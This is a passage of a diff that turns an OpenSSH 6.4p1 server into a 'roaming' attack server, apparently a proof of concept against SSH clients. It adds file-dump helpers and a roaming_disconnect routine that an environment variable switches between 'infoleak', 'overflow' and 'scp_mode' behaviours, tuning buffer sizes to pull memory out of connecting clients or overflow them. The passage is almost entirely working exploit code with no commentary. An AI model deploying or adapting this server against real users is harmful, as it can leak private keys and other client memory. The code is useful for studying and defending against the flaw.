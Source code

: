 xmalloc(buflen); + + if ((u_int)snprintf(buf, buflen, "/tmp/roaming-%08x", id) >= buflen) + fatal("%s: snprintf %u error", __func__, id); + return buf; +} + +static inline void +dump_roaming_file(const char *const name, + const void *const buf, const size_t buflen) +{ + if (name == NULL) + fatal("%s: name %p", __func__, name); + if (strchr(name, '/') != NULL) + fatal("%s: name %s", __func__, name); + if (buf == NULL) + fatal("%s: %s buf %p", __func__, name, buf); + if (buflen <= 0 || buflen > MAX_ROAMBUF) + fatal("%s: %s buflen %lu", __func__, name, (u_long)buflen); + + const int fd = open(name, O_WRONLY | O_CREAT | O_EXCL, S_IRUSR); + if (fd <= -1) + fatal("%s: open %s errno %d", __func__, name, errno); + if (write(fd, buf, buflen) != (ssize_t)buflen) + fatal("%s: write %s errno %d", __func__, name, errno); + if (close(fd) != 0) + fatal("%s: close %s errno %d", __func__, name, errno); +} + +static inline void * +load_roaming_file(const char *const name, + void *buf, size_t *const buflenp) +{ + if (name == NULL) + fatal("%s: name %p", __func__, name); + if (strchr(name, '/') != NULL) + fatal("%s: name %s", __func__, name); + if (buflenp == NULL) + fatal("%s: %s buflenp %p", __func__, name, buflenp); + + const int fd = open(name, O_RDONLY | O_NOFOLLOW | O_NONBLOCK); + if (fd <= -1) + fatal("%s: open %s errno %d", __func__, name, errno); + struct stat st; + if (fstat(fd, &st) != 0) + fatal("%s: fstat %s errno %d", __func__, name, errno); + if (S_ISREG(st.st_mode) == 0) + fatal("%s: %s mode 0%o", __func__, name, (u_int)st.st_mode); + if (st.st_size <= 0 || st.st_size > MAX_ROAMBUF) + fatal("%s: %s size %lld", __func__, name, + (long long)st.st_size); + + if (buf == NULL) { + *buflenp = st.st_size; + buf = xmalloc(*buflenp); + } else { + if (*buflenp != (size_t)st.st_size) + fatal("%s: %s size %lld buflen %lu", __func__, name, + (long long)st.st_size, (u_long)*buflenp); + } + if (read(fd, buf, *buflenp) != (ssize_t)*buflenp) + fatal("%s: read %s errno %d", __func__, name, errno); + if (close(fd) != 0) + fatal("%s: close %s errno %d", __func__, name, errno); + return buf; +} + #endif /* ROAMING */ diff -pruN openssh-6.4p1/serverloop.c openssh-6.4p1+roaming/serverloop.c --- openssh-6.4p1/serverloop.c 2013-07-17 23:12:45.000000000 -0700 +++ openssh-6.4p1+roaming/serverloop.c 2016-01-07 01:04:15.000000000 -0800 @@ -1060,6 +1060,9 @@ server_request_session(void) return c; } +static int client_session_channel = -1; +static int server_session_channel = -1; + static void server_input_channel_open(int type, u_int32_t seq, void *ctxt) { @@ -1089,12 +1092,22 @@ server_input_channel_open(int type, u_in c->remote_window = rwindow; c->remote_maxpacket = rmaxpack; if (c->type != SSH_CHANNEL_CONNECTING) { + debug("%s: avoid client-side buf_append", __func__); + /* packet_start(SSH2_MSG_CHANNEL_OPEN_CONFIRMATION); packet_put_int(c->remote_id); packet_put_int(c->self); packet_put_int(c->local_window); packet_put_int(c->local_maxpacket); packet_send(); + */ + if (strcmp(ctype, "session") == 0) { + if (client_session_channel != -1) + fatal("%s: client_session_channel %d", + __func__, client_session_channel); + client_session_channel = c->remote_id; + server_session_channel = c->self; + } } } else { debug("server_input_channel_open: failure %s", ctype); @@ -1111,6 +1124,196 @@ server_input_channel_open(int type, u_in } static void +roaming_disconnect(Kex *const kex) +{ + const char *cp, *roaming = getenv("ROAMING"); + if (roaming == NULL) + roaming = "infoleak"; + int overflow = 0; + if ((cp = strstr(roaming, "overflow:")) != NULL) + overflow = cp[9]; + + const u_int client_recv_buf_size = packet_get_int(); + packet_check_eom(); + const u_int server_recv_buf_size = get_recv_buf_size(); + const u_int server_send_buf_size = get_snd_buf_size(); + debug("%s: client_recv_buf_size %u", __func__, client_recv_buf_size); + debug("%s: server_recv_buf_size %u", __func__, server_recv_buf_size); + debug("%s: server_send_buf_size %u", __func__, server_send_buf_size); + + u_int client_send_buf_size = 0; + if ((cp = strstr(roaming, "client_send_buf_size:")) != NULL) + client_send_buf_size = strtoul(cp + 21, NULL, 0); + else if (client_recv_buf_size == DEFAULT_ROAMBUF) + client_send_buf_size = DEFAULT_ROAMBUF; + else { + const u_int + max = MAX(client_recv_buf_size, server_recv_buf_size), + min = MIN(client_recv_buf_size, server_recv_buf_size); + if (min <= 0) + fatal("%s: min %u", __func__, min); + if (((u_int64_t)(max - min) * 1024) / min < 1) + client_send_buf_size = server_send_buf_size; + else + client_send_buf_size = client_recv_buf_size; + } + debug("%s: client_send_buf_size %u", __func__, client_send_buf_size); + if (client_send_buf_size <= 0) + fatal("%s: client_send_buf_size", __func__); + + u_int id = 0; + char *dir = NULL; + for (;;) { + id = arc4random(); + debug("%s: id %u", __func__, id); + free(dir); + dir = get_roaming_dir(id); + if (mkdir(dir, S_IRWXU) == 0) + break; + if (errno != EEXIST) + fatal("%s: mkdir %s errno %d", __func__, dir, errno); + } + debug("%s: dir %s", __func__, dir); + if (chdir(dir) != 0) + fatal("%s: chdir %s errno %d", __func__, dir, errno); + + u_int client_out_buf_size = 0; + if ((cp = strstr(roaming, "client_out_buf_size:")) != NULL) + client_out_buf_size = strtoul(cp + 20, NULL, 0); + else if (overflow != 0) + client_out_buf_size = MAX_ROAMBUF; + else + client_out_buf_size = 1 + arc4random() % 4096; + debug("%s: client_out_buf_size %u", __func__, client_out_buf_size); + if (client_out_buf_size <= 0) + fatal("%s: client_out_buf_size", __func__); + dump_roaming_file("client_out_buf_size", &client_out_buf_size, + sizeof(client_out_buf_size)); + + if ((cp = strstr(roaming, "scp_mode")) != NULL) { + if (overflow != 0) + fatal("%s: scp_mode is incompatible with overflow %d", + __func__, overflow); + + u_int seconds_left_to_sleep = 3; + if ((cp = strstr(cp, "sleep:")) != NULL) + seconds_left_to_sleep = strtoul(cp + 6, NULL, 0);